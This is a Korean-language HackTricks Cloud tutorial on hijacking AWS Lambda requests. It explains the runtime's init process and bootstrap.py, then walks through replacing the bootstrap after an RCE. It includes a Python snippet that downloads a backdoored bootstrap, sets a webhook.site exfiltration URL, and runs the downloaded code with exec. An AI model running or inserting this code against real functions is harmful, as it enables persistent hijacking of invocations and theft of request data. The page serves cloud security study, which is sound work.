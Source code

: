 # AWS - Lambda 요청 훔치기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

## Lambda 흐름

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부의 프로세스로, **init** 프로세스에 **호출**을 **전송**합니다.
2. init 프로세스는 포트 **9001**에서 몇 가지 흥미로운 엔드포인트를 노출합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트 가져오기
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 가져오는 루프를 가지고 있으며, 이를 처리하기 위해 사용자 코드를 호출합니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 init에 **응답**을 전송합니다.

bootstrap은 사용자 코드를 모듈로 로드하므로, 사용자 코드에 의해 수행된 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## Lambda 요청 훔치기

이 공격의 목표는 사용자의 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 **init 프로세스와 대화**를 시작하고, **정상** bootstrap은 악성 프로세스를 실행 중에 **갇히게** 되어 init 프로세스에 요청을 요청하지 않게 됩니다.

이것은 사용자의 코드가 정상 **`bootstrap.py`** 프로세스에 의해 실행되고 있기 때문에 간단한 작업입니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* **현재 호출의 가짜 결과를 init 프로세스에 전송하여**, init이 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각하게 합니다.
* **`/${invoke-id}/response`**에 요청을 전송해야 합니다.
* invoke-id는 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 정상 **`bootstrap.py`** 프로세스의 스택에서 얻거나, **`/2018-06-01/runtime/invocation/next`**에 다시 요청하여 얻을 수 있습니다.
* 다음 호출을 처리할 악성 **`bootstrap.py`**를 실행합니다.
* 은밀함을 위해 lambda 호출 매개변수를 공격자가 제어하는 C2로 전송한 다음 요청을 평소처럼 처리할 수 있습니다.
* 이 공격을 위해서는 시스템에서 **`bootstrap.py`**의 원본 코드를 가져오거나 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 가져와 악성 코드를 추가하고 현재 lambda 호출에서 실행하면 충분합니다.

### 공격 단계

1. **RCE** 취약점 찾기.
2. **악성** **bootstrap** 생성하기 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **악성 bootstrap 실행하기.**

이 작업을 수행하려면 쉽게 다음을 실행하면 됩니다:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)를 확인하세요.

## 참고문헌

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
